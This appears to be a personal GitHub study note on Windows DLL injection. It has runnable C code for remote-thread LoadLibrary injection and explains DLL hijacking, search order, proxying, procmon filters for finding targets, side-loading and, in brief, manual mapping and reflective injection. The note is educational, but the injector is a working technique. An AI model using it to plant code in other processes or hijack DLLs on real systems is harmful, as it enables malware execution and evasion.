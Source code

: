 
# DLL Injection 

DLL Injection is a technique that involves injecting a DLL into a running process, allowing this code to run in the targeted process context.

It can have legitimate uses, for example, for hot patching, however, it can also allow attackers to inject malicious code in a legitimate process.

## Basic DLL Injection  

DLL can be loaded in a program using the LoadLibrary API call, which returns a handle which can be used to get the adresses of the functions in the library (using the GetProcAddress call)

```C
#include <windows.h>
#include <stdio.h>

int main() {
    HMODULE hModule = LoadLibrary("example.dll");
    if(hModule == NULL) {
        printf("We did a fucky wucky :c\n");
        return -1;
    }
    printf("Loaded example.dll successfully :3");
    
    return 0;
}
```

But it is also possible to load the DLL into a remote process by creating a thread calling LoadLibrary in the remote process :
```C
#include <windows.h>
#include <stdio.h>

int main() {

    char *dllPath = "example.dll";

    // First, we need a handle on the target process
    DWORD targetPID = 1234; 
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
    if (hProcess == NULL) {
        printf("Failed to open the target process\n");
        return -1;
    }

    // Then allocate memory in the target process for the DLL path
    LPVOID dllPathRemotePtr = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (dllPathRemotePtr == NULL) {
        printf("Failed to allocate memory in target process\n");
        return -1;
    }

    // Fill this memory with the dll path
    BOOL writeSucceeded = WriteProcessMemory(hProcess, dllPathRemotePtr, dllPath, strlen(dllPath), NULL);
    if (!writeSucceeded) {
        printf("Failed to write in target process memory\n");
        return -1;
    }

    // Get the address of LoadLibrary in kernel32.dll
    LPVOID loadLibraryAddr = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (loadLibraryAddr == NULL) {
        printf("Failed to get the address of LoadLibrary\n");
        return -1;
    }
    
    // Create a remote thread, starting at LoadLibrary, pointing at the dll path
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryAddr, dllPathRemotePtr, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread in target process\n");
        return -1;
    }

    printf("Successfully injected example.dll in remote process :3\n");
    return 0;
}
```

## DLL Hijacking 

DLL Hijacking is a technique where an attacker take advantage of Windows DLL loading process. 
If a program doesn't specify the full name of a DLL, windows will search for the DLL following this order :
- 1-The directory from which the application is loaded
- 2-The system directory
- 3-The 16-bit system directory
- 4-The Windows directory
- 5-The current directory
- 6-The directories in PATH 

> If the `SafeDllSearchMode` is desactivated, the current directory becomes the 2nd directory to be searched
> You can find the value in the registry at `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Session Manager`

If an attacker places their own DLL earlier in the search order, *or if the actual DLL is not found*, it will be loaded in place of the actual DLL.
This requires that the malicious DLL exports the same functions than the actual DLL. This can be done easily with a technique known as __proxying__, where the malicious DLL load the actual DLL in order to keep most of its functionality.

The best way to find good candidates for hijacking is to use [procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)from sysinternals.
After starting the tool, the first thing to do is set up a few filters to avoid getting overwhelmed with garbage.
I recommend setting up two filters as such :
```
If Path Ends With dll then Include
If Result Is NAME NOT FOUND then include
```

We should now see every single call for a dll which failed. Giving us a good list of potential hijacking targets.

## DLL Side-Loading
Another popular attack using DLL is DLL Side-Loading.
It's a fairly simple attack consisting as taking a legitimate executable, but copying it in a directory we control so our own DLL can be run first.

## Advanced DLL Injection techniques

### Manual Mapping
It is possible to avoid detection by not using LoadLibrary. However this is a very complex technique that requires manually mapping the dll into a process memory, resolving imports and relocations. 
It's a bit too complicated to detail right now, but i'll get back on it later, pinkie promise :3

For a (very) simplified overview : 
 - Loads the DLL as raw data in the target process
 - Map the DLL sections in the target process
 - Injects shellcode in the target process and executes it. The shellcode will relocate the DLL, rectify the imports, execute the TLS callbacks and finally call the DLL Main.

// TODO so i find it later

(Good videos on the subject, part 1 of 4 tho 💀)
https://youtu.be/qzZTXcBu3cE
### Reflective DLL Injection
Even more complicated omg i feel so stupid rn help me

fuck it do it yourself i' so tired of this shit
https://github.com/stephenfewer/ReflectiveDLLInjection


## 

